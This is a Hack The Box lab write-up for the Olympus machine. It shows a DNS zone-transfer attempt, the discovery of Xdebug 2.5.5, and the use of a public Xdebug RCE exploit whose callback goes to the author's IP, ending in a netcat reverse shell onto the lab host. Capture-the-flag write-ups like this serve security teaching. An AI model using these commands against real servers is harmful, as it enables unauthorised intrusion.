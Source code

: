 ## HTB Olympus (Medium) - Writeup

Difficulty: Medium

Olympus was a well-designed box involving DNS exploitation and Wi-Fi cracking, with containerization playing a key role throughout the journey.  
Privilege escalation was achieved through a misconfiguration, making for a solid and enjoyable challenge.  
---

## Nmap 

#### The nmap scan revealed three open and one filtered port:

![obraz](https://github.com/user-attachments/assets/981edf0e-18d3-4d26-9ee1-a08c7fdad02c)




## Port 53 - DNS

We can try to look for hidden domain names with dig command:  
```
dig axfr @10.10.10.83 olympus.htb
dig @10.10.10.83 olympus.htb
```
![obraz](https://github.com/user-attachments/assets/b225b181-6a1f-423a-9784-0f70a2b06b59)

Domain name olympus.htb was just my guess based on HTB naming convention.  




## Port 80 - Website 

![obraz](https://github.com/user-attachments/assets/1c397e3e-bf48-4433-84ee-1aa3c1c3ed14)

It doesn't contain anything intresting, also feroxbuster didn't found anything.  

Let's take a look at the http response headers.  

![obraz](https://github.com/user-attachments/assets/712a3f78-565e-49db-8cca-12f3a595903d)

Xdebug looks promising, lets research it a bit.  
It turns out that xdebug is a php tool and 2.5.5 is a version.   

After a quick search I found an RCE exploit for this tool.  
```
https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py
```

Let's try to get basic code execution with it:  
```
python3 exp.py -t http://10.10.10.83/index.php -c 'shell_exec("id");' --dbgp-ip 10.10.14.14
```
![obraz](https://github.com/user-attachments/assets/f180588b-d66d-4cd5-9865-bfa444900d88)

It worked, now we can try to get a shell access, I'll try netcat shell first.  
We will start netcat listener on port 9005 and run:  

![obraz](https://github.com/user-attachments/assets/2ae2d5d6-6800-4ffa-bd86-23fbeb33efd9)

We were lucky, it turned out that our target had netcat with -e option installed which led to initial access.  

![obraz](https://github.com/user-attachments/assets/fc520114-fb0f-42b9-b3c2-25cc7ec499d0)





























